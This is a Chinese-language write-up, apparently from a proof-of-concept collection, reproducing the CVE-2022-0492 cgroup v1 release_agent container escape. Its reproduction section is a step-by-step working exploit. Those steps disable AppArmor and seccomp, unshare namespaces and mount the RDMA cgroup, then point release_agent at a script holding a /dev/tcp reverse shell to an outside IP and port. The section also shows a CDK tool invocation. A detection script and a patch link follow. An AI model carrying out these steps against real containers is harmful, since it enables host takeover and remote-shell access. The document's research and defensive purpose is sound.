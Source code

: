 # Linux 内核 cgroup v1 逻辑错误导致容器逃逸 CVE-2022-0492

## 漏洞描述

该漏洞是由于 control groups（cgroups）中的一个逻辑错误所致。Control Groups（cgroups）是一个 Linux 特性，允许管理员限制、记录和隔离一组进程所使用的资源。Linux 支持两种 cgroup 架构，分别名为 cgroup v1 和 cgroup v2，该漏洞只影响 cgroup v1 架构。

如果容器运行了以下操作，则可逃逸：

- 以 root 用户身份运行，或没有为容器进程设置 [no_new_privs](https://kubernetes.io/zh-cn/docs/tasks/configure-pod-container/security-context/) 标志；
- 没有启用 AppArmor 或 [SELinux](https://www.redhat.com/en/topics/linux/what-is-selinux#:~:text=Security%2DEnhanced%20Linux%20\(SELinux\),Linux%20Security%20Modules%20\(LSM\).) 进行保护；
- 没有启用  [Seccomp](https://docs.docker.com/engine/security/seccomp/)  进行保护；
- 在启用了非特权用户命名空间的主机上运行；
- 隶属于 root v1 cgroup。

或满足下列条件，则可逃逸：

- 具有 CAP_SYS_ADMIN 权限；
- 没有启用 AppArmor 或 SELinux 进行保护；
- 没有创建 cgroup 命名空间；
- 隶属于 root v1 cgroup。

参考链接：

  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0492
  - https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/
  - http://terenceli.github.io/技术/2022/03/06/cve-2022-0492
  - https://github.com/PaloAltoNetworks/can-ctr-escape-cve-2022-0492
  - https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 19.03.6
```

Linux 内核版本 `5.4.0-84-generic`：

```
uname -a
Linux ubuntu 5.4.0-84-generic #94~18.04.1-Ubuntu SMP Thu Aug 26 23:17:46 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603105827303.png)

## 漏洞复现

创建禁用了 AppArmor 和 Seccomp 的容器：

```
docker run -it --name cve-2022-0492 --security-opt="seccomp=unconfined" --security-opt="apparmor=unconfined" ubuntu:latest /bin/bash
```

AppArmor 和 SELinux 都会阻止挂载，这意味着使用其中任何一种方式运行的容器都受到保护 。如果两者皆禁用，容器可以通过滥用用户命名空间来挂载 cgroupfs。

挂载 cgroupfs 需要在托管当前 cgroup 命名空间的用户命名空间中拥有 `CAP_SYS_ADMIN` 权限。默认情况下，容器运行时没有 `CAP_SYS_ADMIM` 权限 ，因此无法在初始用户命名空间中挂载 cgroupfs。但是，通过 `unshare()` 系统调用，容器可以创建新的用户和 cgroup 命名空间，并在这些命名空间中拥有 `CAP_SYS_ADMIN` 权限并可以挂载 cgroupfs：

- 第一步，创建一个新的用户和 cgroup 命名空间，它将具有 `CAP_SYS_ADMIN` 权限：

```
root@0c782b51c5ac:/# unshare -UrmC bash
```

>并非所有容器都能创建新的用户命名空间—— 宿主机必须启用非特权用户命名空间 。在最近的 Ubuntu 版本中，这是默认设置。由于 Seccomp 会阻止 `unshare()` 系统调用， 因此只有在未启用 Seccomp 的情况下运行的容器才能创建新的用户命名空间 。

- 第二步，容器在新的用户和 cgroup 命名空间中挂载 root RDMA cgroup：

```
root@0c782b51c5ac:/# mount -it cgroup -o rdma cgroup /mnt
```

- 第三步，在 cgroup 中创建一个名为 `w` 的子组，开启 release agent，设置 `notify_on_release=1`：

```
root@0c782b51c5ac:/# d=`dirname $(ls -x /mnt/r* |head -n1)`
root@0c782b51c5ac:/# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
```

- 第四步，从 `/etc/mtab` 中提取 cgroup 临时路径，将 `exp.sh` 路径写入 `/mnt/release_agent`：

```
root@0c782b51c5ac:/# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@0c782b51c5ac:/# printf '#!/bin/bash\n/bin/bash -i >& /dev/tcp/192.168.43.149/9999 0>&1' > /exp.sh; chmod 777 /exp.sh
root@0c782b51c5ac:/# echo "$t/exp.sh" > $d/release_agent
```

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603111941141.png)

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603113252638.png)

- 第五步，创建一个马上终止的进程，当 `w` 子组的最后一个进程退出时，将激活 `/mnt/release_agent`：

```
root@0c782b51c5ac:/# sh -c "echo 0 >$d/w/cgroup.procs"
```

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603110039518.png)

监听 9999 端口，获取反弹 shell：

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603103539046.png)

也可以通过 [CDK](https://github.com/cdk-team/CDK) 复现。下载 CDK ，并将其传入容器 `/tmp` 目录下，执行命令：

```
./cdk run mount-cgroup "whoami" rdma
```

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603115127954.png)

> 注意，cdk 默认为 memory cgroup，权限不足，需要指定为 rdma。

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603115247636.png)

## 漏洞 POC

[can-ctr-escape-cve-2022-0492.sh](https://github.com/PaloAltoNetworks/can-ctr-escape-cve-2022-0492/blob/main/can-ctr-escape-cve-2022-0492.sh)

```shell
#!/bin/bash
echo "[*] Testing whether CVE-2022-0492 can be exploited for container escape" 

# Setup test dir
test_dir=/tmp/.cve-2022-0492-test
if ! mkdir -p $test_dir ; then
    echo "ERROR: failed to create test directory at $test_dir" 
    exit 1
fi

# Test whether escape via CAP_SYS_ADMIN is possible
if mount -t cgroup -o memory cgroup $test_dir >/dev/null 2>&1 ; then
    if test -w $test_dir/release_agent ; then
        echo "[!] Exploitable: the container can escape as it possesses CAP_SYS_ADMIN and runs without AppArmor or SELinux. Note that it likely doesn't need CVE-2022-0492 to escape."
        umount $test_dir && rm -rf $test_dir
        exit 0
    fi
    umount $test_dir
fi

# Test whether escape via user namespaces is possible
while read -r subsys
do
    if unshare -UrmC --propagation=unchanged bash -c "mount -t cgroup -o $subsys cgroup $test_dir 2>&1 >/dev/null && test -w $test_dir/release_agent" >/dev/null 2>&1 ; then
        echo "[!] Exploitable: the container can abuse user namespaces to escape"
        rm -rf $test_dir
        exit 0
    fi
done <<< $(cat /proc/$$/cgroup | grep -Eo '[0-9]+:[^:]+' | grep -Eo '[^:]+$')

# Cannot escape via either method
rm -rf $test_dir
echo "[+] Contained: cannot escape via CVE-2022-0492"
```

## 漏洞修复

- 升级补丁 https://access.redhat.com/security/cve/cve-2022-0492
